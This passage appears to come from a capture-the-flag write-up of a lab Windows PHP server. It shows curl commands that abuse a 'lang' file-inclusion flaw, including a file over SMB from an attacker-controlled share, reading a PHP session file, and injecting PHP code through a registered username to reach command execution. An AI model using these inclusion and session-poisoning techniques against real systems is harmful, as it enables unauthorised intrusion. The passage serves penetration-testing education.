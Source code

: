 `text.txt` is just a text file with the string `0xdf` in it. Now I can include it and see the results:

```

root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\test.txt' | sed -n '/<\/html>/,/<\/body>/p'
</html>
0xdf
</body>
</html>

```

### path 1 - LFI

#### RCE

Having found the LFI above, I start to think about where I could write a file on disk. One place is the PHP session file for the `/user/` site. The [default location on Windows](https://stackoverflow.com/questions/37603993/php-sessions-default-save-location-for-windows) is `C:\windows\temp\`. I get my session id from Burp, and see, it’s there:

```

root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr' | tail

</body>

</html>
username|s:4:"oxdf";</body>
</html>

```

Next I tried to register as:

```

<?php system("whoami") ?>

```

But when I tried to log in, I get rejected:

![1570739618691](https://0xdfimages.gitlab.io/img/1570739618691.png)

There must be some filtering going on at registration. After some playing around, I got this username to login:

```

a<?php echo `whoami` ?>b

```
